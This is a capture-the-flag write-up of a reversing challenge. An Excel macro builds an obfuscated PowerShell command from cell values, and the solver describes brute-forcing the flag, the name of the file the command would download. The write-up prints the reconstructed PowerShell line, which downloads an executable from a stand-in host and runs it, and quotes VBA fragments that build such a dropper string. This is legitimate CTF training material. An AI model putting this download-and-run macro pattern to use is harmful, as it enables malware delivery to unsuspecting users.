 # PROMPT 

I found a excel sheet with some great deals thanks to some random guy on the internet! Who doesn't trust random people off the internet, especially from email

The flag is the file name that was attempted to be downloaded, wrapped in utflag{} Note: the file imitates malicious behavior. its not malicious, but it will be flagged by AV. you probably shouldn't just run it though.

By Samintell (@samintell on discord)

# SOLUTION

This was very dumb... The reversing part was very straight forward, however. 

All we have to do is follow the order in which the command string is generated and then answer the question: "What file is being queried?" 

The command file being generated is something like:

```
poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA= 'http://fruit.gang/malware';$ CNTA = 'banANA-Hakrzf3zsd283209182afd4';$jri=$env:public+'CNTA+'.exe';try{$oaK.DowloadFile($Ora, $jri)Invoke-Item $jri;break;} catch {}"
```

I am sure I have some punctuation wrong somewhere, but all we care about is the final value of `$jri` to solve the challenge. 

I literally had to brute force the answer because whatever the "intended" method is for weeding out the "obfuscation" statements, I couldn't figure it out. 

Below is what I tried so you know I wasn't just being lazy and brute forcing, but first let me explain what these "obfuscation" statements were.

So, the straightforward part of the challenge is that if-then statements are creating a larger command string based on the value of cells in an excel sheet.

For example, `if A1 == "<random b64 data>", then command_str += "shell -c"`

That is fine, except that every now and then there were legitimate if statements that just added garbage to the middle of the string. 

I *thought* the intention of this challenge was to discover how to weed out the garbage if statements, because the reversing part was so simple otherwise; however, I did not find a consistent way to do this.

For example, *in the part of the RE challenge that actually generates the flag itself* there was this statement:

```
If Sheets("Sheet2").Range("G39").Value = "MZZ/er++" Then
cmd_str = cmd_str + "f3zsd"
```

We now know *for a fact* this is a garbage statement since the flag does not contain these characters but the if statements surrounding this one are required to be hit to build the flag (and if those statements are hit, this one must also be hit). 

So, I figured the question was "Tell me why this statement is not true." By the way, I chose this example because it was perfect in every way except that the characters look a little less than "random", but if you noticed that, just forget it, there are plenty of other examples of garbage statements that appear truly random.

# What we tried

We see a comment in one of the excel macros that says "Base64 for 8 bytes to represent 6 bytes of data." Now, I hadn't had my coffee yet, so I forgot that base64 being a standard means that *all 8 byte strings of legitimate base64 can be decoded in 6 bytes of data*. Forgetting that momentarily, I wrote a script to test the base64 strings in the if statements to see if any did not decode to 6 bytes. Obviously, they all did decode to 6 bytes *except* I found exactly 1 if statement that included a 7-char base64 string, which violates the base64 standard. Ah ha! I found a garbage statement! And it was! The command string made more sense when this line was removed.

So, I thought, great! I was right about the challenge!

I then checked the macros again to see that the author wrote their own base64 alphabet variable, and the "=" sign was not included. This means that every value that has an "=" in it, is also not valid! Correct again! I removed *more* garbage statements. 

This is a clever challenge, I thought, but that is where it stopped. In the example above, for instance, I thought... ok, this *must* be a garbage statement, so how do we weed it out?

Do we decode it to see if it makes sense? Didn't work.
What if it decodes into non-ASCII? Doesn't matter. Necessary values do to.
What if it decodes into non-printable chars? Same as previous answer.
What if it has repeating characters ("ZZ" or "++" in this example)? Same as previous answer.
Forward slash? See previous answer.
Plus sign? Previous.

Okay... so some garbage values are legitimately randomly generated base64 characters that match all base64 characteristics of necessary statements... So... what's next?

The excel data! I figured, the macro must be targeting a specific range of cells. What if the garbage statements are outside of those cells? Also, there was an "example" excel sheet given which only populated a very small subset of cells!

This looked promising, but immediately it became clear the "example" spreadsheet is a red herring and necessary statements reference cells that fall far outside of the example range anyway. Also, there was no noticeable pattern of cells that were used (such as, are all garbage values past column "F" -- there were necessary values at the beginning and end of the column alphabet excluding double-characters such as "AA", but no garbage values were found there either).

Ok, so we have garbage values that fall within the required range and meet all characteristics of base64 we care about and have weeded out already... So, what's next? 

Ah! I know! The flag must be something human readable! This is the only way it makes sense... We have reversed the challenge enough to know that we *only* care about garbage statements if they interrupt the flag! So, we can forget about weeding out *most* of the garbage values in the challenge. The flag is composed of 8 or so statements, so we have now significantly reduced what we even care about checking for, so let's just put the flag together and see what makes it human readable! 

Man, I'm so smart. 

Here are the values we have for the flag. They must be in this order if they are used, but any one "block" of characters can be removed. So, no swapping around.

"banA" "NA-H" "akrz" "f3zsd" "2832" "0918" "2afd"

If you are looking at the challenge and are wondering why I ignored the value in between "banA" and "NA-H", it is because it was weeded out as a garbage value by one of our previous tests. Also, we know for a fact already from RE that the value must end with "4.exe", so I have left that out.

So, we immediately see that "banANA-Hakrz" (banana hackers) is human readable. Awesome! But... then we have random numbers and letters... 

This is where I got the idea to "brute force", because, realistically, we don't need an overwhelming amount of guesses to get this right. 

We have 1 full version (banANA-Hakrzf3zsd283209182afd)
For each non-readable "block" we can remove 1, 2, 3, or 4. We can remove 1 three times for each "block". Because we can't switcheroo, we can only remove 2 "blocks" three times (first two, middle two, last two). And for the same reason we can only remove 3 twice (first three, last three). And, finally and perhaps most obviously we can just remove all of them one time.

So that's 1 full, we can keep 1 "block" the same 3 times for each "block" (3 * 4 == 12), add 3 for our ways to remove two "blocks", 2 for 3 and finally carry the one. 

This comes out to be something like five hundred thousand possible flags (19 actually, I think...). 

In my opinion, 19 possible flags for a challenge like this is very dumb, but, we do what we gotta do, I guess.

So, after 16 guesses, I found that "utflag{banANA-Hakrz09182afd4.exe}" was the correct flag (remember what I said before that we knew it had to end in "4.exe" anyway, so that was a given).

This means that we had to somehow find a way to exclude "f3zsd" *and* "2832" as garbage statements, which I could not do. Here are their respective if-statements along with the legitimate ones if you would like to see if you can determine the trick:

```
If Sheets("Sheet2").Range("G39").Value = "MZZ/er++" Then
cmd_str = cmd_str + "f3zsd"
End If
If Sheets("Sheet2").Range("B93").Value = "ZX42cd+3" Then
cmd_str = cmd_str + "2832"
End If
If Sheets("Sheet2").Range("I15").Value = "e9x9ME+E" Then
cmd_str = cmd_str + "0918"
End If
If Sheets("Sheet2").Range("T46").Value = "7b69F2SI" Then
cmd_str = cmd_str + "2afd"
End If
```

The first two should "fail" and last two should "succeed". I wish you the best.
